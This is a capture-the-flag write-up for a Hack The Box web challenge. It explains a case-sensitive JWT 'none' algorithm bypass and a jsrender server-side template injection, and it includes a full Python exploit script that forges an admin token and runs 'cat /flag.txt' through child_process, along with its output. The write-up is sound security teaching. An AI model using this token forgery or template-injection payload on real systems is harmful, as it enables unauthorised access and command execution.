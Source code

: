 # Didactic Octo Paddle
The web application given is written in JS using an SQLite database, and redering HTML templates with `jsrender`. This smol e-commerce webapp allows a user to register itself, add/remove items to/from a cart. It also has an admin interface to administer users.

The first vulnerability lies in the handling of the admin JWT session: it trusts the user provided JWT algorithm. It does try to filter out the `none` alrogithm (in which the JWT signature is an empty string), but is not case sensitive:
```js
const AdminMiddleware = async (req, res, next) => {
    try {
        const sessionCookie = req.cookies.session;
        if (!sessionCookie) {
            return res.redirect("/login");
        }
        const decoded = jwt.decode(sessionCookie, { complete: true });

        if (decoded.header.alg == 'none') { <====================== only 'none' is tested, not 'None', 'nOne', 'nOnE', etc
            return res.redirect("/login");
        } else if (decoded.header.alg == "HS256") {
            const user = jwt.verify(sessionCookie, tokenKey, {
                algorithms: [decoded.header.alg],
            });
            if (
                !(await db.Users.findOne({
                    where: { id: user.id, username: "admin" },
                }))
            ) {
                return res.status(403).send("You are not an admin");
            }
        } else {
            const user = jwt.verify(sessionCookie, null, {
                algorithms: [decoded.header.alg],
            });
            if (
                !(await db.Users.findOne({
                    where: { id: user.id, username: "admin" },
                }))
            ) {
                return res
                    .status(403)
                    .send({ message: "You are not an admin" });
            }
        }
```

Once logged in as admin, the user page will be rendered with the user names using `jsrender`:

```js
  router.get("/admin", AdminMiddleware, async (req, res) => {
        try {
            const users = await db.Users.findAll();
            const usernames = users.map((user) => user.username);

            res.render("admin", {
                users: jsrender.templates(`${usernames}`).render(),
            });
```

```html
      {{for users.split(',')}}
        <li class="list-group-item d-flex justify-content-between align-items-center ">
          <span>{{>}}</span>
        </li>
      {{/for}}
```

If a user has a name using an SSTI (Server Side Template Injection), it will trigger `jsrender` to execute it.

As such, the path to victory is:

- register a normal user
- login with the normal user get the resulting JWT
- pollute the JWT algorithm with `None` (or any `none` with an uppercase), remove its signature, and alter the user `id` to `1` (which is the admin)
- register another user, which username uses a `jsrender` SSTI (using payloads from [here](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/README.md))
- using the polluted admin JWT, visit the `/admin` page to trigger `jsrender` SSTI trying to display the usernames

The final script is the following:
```python
import requests
import base64
import json

domain = '165.232.108.240'
endpoint = "http://{}:31326".format(domain)

register = {
    'username': 'aaa',
    'password': 'bbb'
}

# https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/README.md#jsrender-nodejs
register_ssti = {
{% raw %}
    'username': "{{:\"pwnd\".toString.constructor.call({},\"return global.process.mainModule.constructor._load('child_process').execSync('cat /flag.txt').toString()\")()}}",
{% endraw %}
    'password': 'aaa'
}

s = requests.Session()
# Register
response = s.post(endpoint + '/register', json = register)
print(response.text)
# Login
response = s.post(endpoint + '/login', json = register)
print(response.text)

jwt = s.cookies['session']
jwt_alg = json.loads(base64.b64decode(jwt.split('.')[0]))
jwt_claim = json.loads(base64.b64decode(jwt.split('.')[1]))
jwt_alg['alg'] = 'None'
jwt_claim['id'] = 1

jwt_admin = base64.b64encode(json.dumps(jwt_alg).encode('utf8')) + b'.' + base64.b64encode(json.dumps(jwt_claim).encode('utf8')) + b'.'
jwt_admin = jwt_admin.decode('utf8').replace('=', '')
print(jwt_admin)
s.cookies.set("session", jwt_admin, domain=domain)

# Register SSTI
response = s.post(endpoint + '/register', json = register_ssti)
print(response.text)
# Admin
response = s.get(endpoint + '/admin')
print(response.text)
```

And the output:
```bash
$ python lol.py
{"message":"User registered succesfully"}
{"message":"Logged in successfully"}
eyJhbGciOiAiTm9uZSIsICJ0eXAiOiAiSldUIn0.eyJpZCI6IDEsICJpYXQiOiAxNjc5NzI5ODM1LCAiZXhwIjogMTY3OTczMzQzNX0.
{"message":"User registered succesfully"}
<!DOCTYPE html>
<html lang="en">
[...]
<body>
[...]
<li class="list-group-item d-flex justify-content-between align-items-center ">
          <span>HTB{Pr3_C0MP111N6_W17H0U7_P4DD13804rD1N6_5K1115}
```
